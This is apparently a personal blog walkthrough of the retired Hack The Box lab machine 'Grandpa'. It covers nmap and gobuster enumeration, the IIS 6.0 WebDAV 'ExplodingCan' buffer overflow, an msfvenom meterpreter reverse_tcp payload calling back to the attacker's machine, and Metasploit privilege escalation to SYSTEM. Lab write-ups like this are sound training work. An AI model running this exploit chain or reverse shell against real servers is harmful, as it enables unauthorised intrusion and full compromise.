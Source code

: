 ```yaml
---
layout: post
title: "Grandpa"
categories: HTB-Walkthrough
---
```


![grandpa1](/assets/img/grandpa/grandpa1.png)


Grandpa is another OSCP-like box from the HTB 'retired' archive.

It's the Buffer Overflow one!

nmap first as always.

<h3>Nmap</h3>

```
nmap -sV -Pn -p- 10.10.10.14 |tee -a gp.txt
```

The results are limited.

```

Nmap scan report for 10.10.10.14
Host is up (0.18s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

Scan again, with default nse scripts `-sC`

`nmap -sVC 10.10.10.14`

```

Nmap scan report for 10.10.10.14
Host is up (0.13s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   WebDAV type: Unknown
|   Server Date: Wed, 11 Mar 2020 09:56:45 GMT
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

<h4>IIS 6.0 running WebDAV</h4>


Scan again, this time checking for vulnerabilities with the `vuln` scripts

`nmap -sV --script=vuln 10.10.10.14`

```
Segmentation fault
```

We can crash the server!!!
It could be vulnerable to a `Buffer Overflow`.
 
Before we persue this, lets check out the directories.


<hr width="250" size="6">



<h3>Gobuster</h3>


```
gobuster dir -u http://10.10.10.14 -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -t 40
```

That was a fast scan.

```

/Images (Status: 301)
/_private (Status: 403)
/_vti_cnf (Status: 403)
/_vti_log (Status: 403)
/_vti_pvt (Status: 403)
/_vti_txt (Status: 403)
/_vti_bin (Status: 301)
/_vti_bin/_vti_adm/admin.dll (Status: 200)
/_vti_bin/_vti_aut/author.dll (Status: 200)
/_vti_bin/shtml.dll (Status: 200)
/aspnet_client (Status: 403)
/images (Status: 301)

```


`http://10.10.10.14/_vti_bin/shtml.dll`

```
Cannot run the FrontPage Server Extensions on this page: ""
```


`/_vti_bin/_vti_adm/admin.dll`

![admindll](/assets/img/grandpa/gp-admindll.png)



`/_vti_bin/_vti_aut/author.dll`

![authordll](/assets/img/grandpa/gp-authordll.png)


`http://10.10.10.14/images/`

![denied](/assets/img/grandpa/gp-denied.png)


<hr width="250" size="6">


<h3>Searchsploit</h3>


`searchsploit iis 6` returns a long list.


`searchsploit iis 6.0 |grep WebDAV |grep -v '/dos/'` is better.

![searchsploit](/assets/img/grandpa/gp-searchsploit.png)


<hr width="250" size="6">

We can read the exploit with

`searchsploit -x 41738`

Unfamiliar with this exploit, and not wanting to simply swap out the shellcode and fire it off,
I used google to do a bit more research.

[This review](https://www.secarma.com/labs/explodingcan-a-vulnerability-review.html) looks at the vulnerability, and gives
context for the exploit.

It is well worth a read!


<hr width="250" size="6">


Searching again on Google for more info, using the exploit's name `ExplodingCan`, I found [another script](https://github.com/danigargu/explodingcan).

So we now have two versions of essentially the same exploit. We can look at them both!



`searchsploit -m 41738` will copy the first exploit to the pwd (present working directory) and have a closer look.


```

 searchsploit -m 41738
  Exploit: Microsoft IIS 6.0 - WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/41738
     Path: /usr/share/exploitdb/exploits/windows/remote/41738.py
File Type: troff or preprocessor input, ASCII text, with very long lines, with CRLF line terminators

Copied to: /root/HTB/vip/grandpa/41738.py

```

<hr width="250" size="6">



The Second exploit looks more simple to impliment than the first, I copy it from github as
 explodingcan.py, and generate a `shellcode` file with msfvenom.


<hr width="250" size="6">




<h4>MsfVenom, Meterpreter + Multi/Handler</h4>

```
msfvenom -p windows/meterpreter/reverse_tcp -f raw -v sc -e x86/alpha_mixed LHOST=10.10.14.10 LPORT=443 | tee shellcode
```


Fire up metasploit

```
service postgresql start
msfconsole
```

Because we used a staged meterpreter payload, we'll need to use the 
exploit/multi/handler.


```

msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 10.10.14.10
lhost => 10.10.14.10
msf5 exploit(multi/handler) > set lport 443
lport => 443
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.10:443 

```


<hr width="250" size="6">


With everything ready, we execute the exploit with the following command:

`python explodingcan.py http://10.10.10.14 shellcode`


![excan-exploit](/assets/img/grandpa/gp-excan-exploit.png)

![meterpreter](/assets/img/grandpa/gp-meterpreter1.png)


<hr width="250" size="6">


<h3>Privilege Escalation</h3>

So we've got a meterpreter shell. The second [exploit](https://github.com/danigargu/explodingcan/blob/master/explodingcan.py)
 was straight-forward to impliment. 

We need to background the session and look for a path to privilege-escalation.

`use post/multi/recon/local_exploit_suggester`

![post1](/assets/img/grandpa/gp-post1.png)


Select `exploit/windows/local/ppr_flatten_rec`
use `show options` to set the variables.

Get SYSTEM shell.

![system](/assets/img/grandpa/gp-system.png)


Now it's a simple task to get the flags:

```
meterpreter > cat user.txt
bdxxxxxxxxxxxxxxxxxxxxxxxxxxxx69

meterpreter > cat root.txt
93xxxxxxxxxxxxxxxxxxxxxxxxxxxx7b

```


:)


